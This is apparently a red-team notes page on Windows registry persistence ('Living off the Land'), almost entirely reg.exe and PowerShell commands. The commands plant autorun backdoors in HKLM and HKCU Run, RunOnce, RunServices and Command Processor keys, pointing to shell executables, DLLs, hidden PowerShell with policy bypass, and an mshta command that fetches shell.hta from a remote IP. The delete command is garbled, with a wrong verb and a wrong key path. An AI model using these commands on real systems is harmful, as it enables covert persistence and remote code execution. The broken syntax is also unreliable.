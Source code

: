 # Living off the Land

## 01 - Registry Backdoors

### 1.1 - HKLM

#### 1.1.1 - Add Registry Key Syntax

Command Prompt

```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]
@=""
"<value_1>"="C:\\Windows\\System32\\cmd.exe /c powershell.exe -e <base64_encoded>"
"<value_n>"=""
```

```
C\> reg.exe import file.reg
```

```
C:\> reg.exe add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v <value> /t reg_sz /d "rundll32.exe C:\path\to\shell.dll,ExecDLL" /f
```

PowerShell

```powershell
PS C:\> Set-ItemProperty -Force -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "<value>" -Type String -Value "C:\path\to\shell.exe"
```

#### 1.1.2 - Delete Registry Key Syntax

```
C:\> reg.exe del [\\<IP>\]HKLM\SOFTWARE\Microsoft\CurrentVersion\Run /v <value> /f
```

### HKLM

```
C:\> reg.exe add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v Autorun /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg.exe add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce /v UpdateOnce /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg.exe add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices /v WindowsService /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg.exe add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServicesOnce /v UpdateSVC /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg.exe add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001 /v Autorun /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg.exe add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v Dependency /t REG_SZ /d "C:\path\to\shell.dll"
```

### HKCU

```
C:\> reg.exe add [\\<IP>\]HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Image /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg.exe add [\\<IP>\]HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Image /t REG_SZ /d "powershell.exe -ep bypass -w hidden -nologo -NonI -f C:\path\to\shell.ps1" /f

C:\> reg.exe add [\\<IP>\]HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce /v WindowsUpdate /t REG_SZ /d "rundll32.exe C:\path\to\shell.dll,ExecuteShell" /f

C:\> reg.exe add [\\<IP>\]HKCU\Software\Microsoft\Windows\CurrentVersion\RunServices /v Image /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg.exe add [\\<IP>\]HKCU\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce /v Image /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg.exe add "[\\<IP>\]HKCU\SOFTWARE\Microsoft\Command Processor" /v AutoRun /t REG_SZ /d "powershell.exe Start-Process -windowstyle hidden -FilePath mshta.exe http://<IP>/shell.hta" /f
```

---
## References

### Backlinks

- [[Windows Post Exploitation Persistence References]]

### LOFLCAB

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)

### Persistence Info

- [Persistence Info: "Run" and "RunOnce" registry keys](https://persistence-info.github.io/Data/run.html)

### DMCXBlue

- [DMCXBlue: Registry Keys / StartUp Folder](https://dmcxblue.gitbook.io/red-team-notes/persistence/registry-keys-startup-folder)

- [DMCXBlue: Userland Persistence](https://dmcxblue.gitbook.io/red-team-notes-2-0/persistence/userland-persistence)